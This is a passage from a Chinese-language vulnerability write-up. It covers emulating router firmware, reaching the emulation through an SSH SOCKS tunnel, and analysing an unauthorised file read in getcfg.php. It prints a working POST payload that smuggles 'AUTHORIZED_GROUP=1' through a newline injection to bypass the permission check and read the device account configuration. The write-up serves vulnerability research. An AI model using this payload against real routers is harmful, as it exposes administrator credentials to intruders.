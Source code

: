 运行固件之后在本地连上远程的 ssh 隧道，代理到本地的 9000 端口：

```
ssh ubuntu@xx.xx.xx.xx -D 9000
```

sockets 代理 `127.0.0.1:9000` ，这里我们就能在本地访问到 vps 上模拟的固件

访问 `192.168.0.1` 即可访问到路由器的登录界面。

[![](https://p2.ssl.qhimg.com/t016e3d8adce1304332.png)](https://p2.ssl.qhimg.com/t016e3d8adce1304332.png)
- 如果用 Burp 访问的话，在 User options 中开启 socks proxy 选项就行了。
[![](https://p3.ssl.qhimg.com/t01e3bb31ce01877a42.png)](https://p3.ssl.qhimg.com/t01e3bb31ce01877a42.png)



## 越权文件读取

先给相应的 `payload`：

```
post_uri: http://192.168.0.1/getcfg.php
data: SERVICES=DEVICE.ACCOUNT&amp;attack=ture%0aAUTHORIZED_GROUP=1
```

### <a class="reference-link" name="%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90"></a>漏洞分析

#### <a class="reference-link" name="getcfg.php%20%E6%BA%90%E4%BB%A3%E7%A0%81%E5%88%86%E6%9E%90"></a>getcfg.php 源代码分析

在 `/htdocs/web/getcfg.php` 文件中，有一处文件读取的操作，通过读取 POST 传入的参数 `SERVICES` 的值，最后拼接到 `$file` 变量中，调用 `dophp("load", $file)` 函数进行文件读取。

[![](https://p1.ssl.qhimg.com/t01b30dcb9146aa1a2d.png)](https://p1.ssl.qhimg.com/t01b30dcb9146aa1a2d.png)

显然这里的 `SERVICES` 变量的值可控，为了达到读取文件的目的，**这里还需要绕过前面的一个 if 判断**

```
if(is_power_user() == 1)

    ......

    function is_power_user()`{`
        if($_GLOBALS["AUTHORIZED_GROUP"] == "")
        `{`
                return 0;
        `}`
        if($_GLOBALS["AUTHORIZED_GROUP"] &lt; 0)
        `{`
                return 0;
        `}`
        return 1;
`}`
```
